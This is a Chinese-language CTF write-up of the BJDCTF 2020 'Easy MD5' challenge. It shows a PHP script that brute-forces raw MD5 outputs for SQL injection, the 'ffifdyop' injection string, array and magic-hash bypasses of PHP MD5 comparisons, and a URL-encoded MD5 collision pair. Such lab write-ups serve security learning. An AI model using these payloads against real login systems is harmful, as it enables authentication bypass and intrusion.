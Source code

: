 ```yaml
---
title: BJDCTF 2020 Easy MD5
date: 2022-05-28 21:34:10
tags:
- CTF
- MD5绕过
categories: CTF
my: Easy_md5
---
```


### 第一关

拿到题目只给了一个登录框，一般就是sql注入，F12没有任何信息，尝试注入语法，没有报错回显继续进行信息收集，看见一个非常关键的信息

![](https://nssctf.wdf.ink/img/xmj/image-20220528213812713.png)

这里利用了md5加密，百度查询一下这个的语法

![](https://nssctf.wdf.ink/img/xmj/image-20220528214154353.png)

这里raw的值时true，意为返回16字符二进制格式，这里也就是说如果md5值经过hex转成字符串后为 'or'+balabala这样的字符串，则拼接后构成的SQL语句为：

```
select * from `admin` where password=''or ___
```

木的就是让or后面的值时ture，只要是数字开头都是可以的，password=‘xxx’ or 1，返回值是true。

可通过如下脚本

```php
<?php 
for ($i = 0;;) { 
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
?>
```

提供一常用`ffifdyop`被加密后raw参数为true`'or'6\<trash>`后面的\<trash>是不可见字符，成功sql注入

### 第二关

直接F12发现了提示

```
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```

直接进行md5数组绕过

```
?a[]=0&b[]=1
```

也可以用下面进行弱等于比较

```
a=QNKCDZO&b=s878926199a
```

### 第三关

同样可以进行数组绕过，POST传参数

```
param1[]=0&param2[]=1
```

也可以直接找md5强碰撞的值

```
param1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&param2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

